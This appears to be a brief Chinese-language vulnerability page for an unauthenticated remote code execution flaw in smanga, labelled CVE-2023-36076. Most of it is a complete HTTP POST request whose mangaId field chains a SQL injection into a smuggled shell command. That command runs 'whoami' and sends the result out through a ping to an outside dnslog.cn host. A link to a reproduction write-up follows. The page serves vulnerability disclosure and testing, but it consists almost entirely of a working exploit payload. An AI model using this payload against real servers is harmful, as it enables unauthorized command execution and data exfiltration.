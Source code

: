 # smanga存在未授权远程代码执行漏洞

##  smanga存在未授权远程代码执行漏洞 CVE-2023-36076

```
POST /php/manga/delete.php HTTP/1.1
Host: 127.0.0.1:8181
Content-Length: 360
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (iPad; CPU OS 13_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/87.0.4280.77 Mobile/15E148 Safari/604.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:8181/php/manga/delete.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

mangaId=1+union+select+*+from+%28select+1%29a+join+%28select+2%29b+join+%28select+3%29c+join+%28select+4%29d+join+%28select+%27%5C%22%3Bping+-c+3+%60whoami%60.uoi9vt.dnslog.cn%3B%5C%22%27%29e+join+%28select+6%29f+join+%28select+7%29g+join+%28select+8%29h+join+%28select+9%29i+join+%28select+10%29j+join+%28select+11%29k+join+%28select+12%29l%3B&deleteFile=true
```

## 漏洞复现
https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247499614&idx=1&sn=96043db01ebaf64197a14fbb095a89cd&chksm=ea340004dd438912d010a45c78284e9b877fa00a08ad3834f38c0f7e5bf97ba577ca72f01321&scene=0&xtrack=1#rd

